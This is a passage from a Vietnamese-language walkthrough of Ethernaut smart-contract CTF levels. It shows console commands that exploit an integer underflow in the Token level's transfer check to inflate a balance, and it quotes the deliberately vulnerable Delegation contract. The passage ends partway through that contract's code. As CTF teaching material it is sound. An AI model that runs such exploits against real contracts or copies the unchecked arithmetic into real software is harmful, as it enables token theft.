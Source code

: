 ```js
require(balances[msg.sender] - _value >= 0)
```

những tưởng rằng điều kiện này chỉ đạt được khi balance của msg.sender lớn hơn giá trị value; nhưng không, điều kiện này sẽ trở thành auto true. Thật vậy, nếu như `balance >= value` thì hiển nhiên sẽ là _true_, còn nếu như `balance < value` thì khi `balance - value` sẽ xảy ra hiện tượng `underflow` và trở nên vô cùng lớn, theo đó điệu kiện cũng sẽ là _true_. Tóm lại, ta sẽ luôn luôn pass.

### Solution

- Trên Chrome console để kiểm tra balance hiện tại:

```js
await contract.balanceOf(player).then(x => x.toNumber())
20
```

- Do điều kiện auto pass, ta sẽ transfer cho một địa chỉ nào đó một giá trị lớn hơn 20 - là số token hiện tại của ta, khi đó phép toán `balances[msg.sender] -= value` sẽ xảy ra hiện tượng _underflow_ và ta sẽ sở hữu một lượng **vô cùng lớn** token:

```js
contract.transfer(player, 21)
```

- Kiểm tra lại balance một lần nữa, wow !! !

```js
await contract.balanceOf(player).then(x => x.toNumber())
1.157920892373162e77
```

- Submit & all done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

### Bình luận

- Overflow hay Underflow đều nguy hiểm, hãy dùng thư viện [Safe Math](https://github.com/OpenZeppelin/zeppelin-solidity/blob/master/contracts/math/SafeMath.sol) cho bất cứ phép toán nào của bạn.

## 6. Delegation 　 ★★★★☆☆

**Nhiệm vụ**: Chiếm quyền owner.

```js
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
```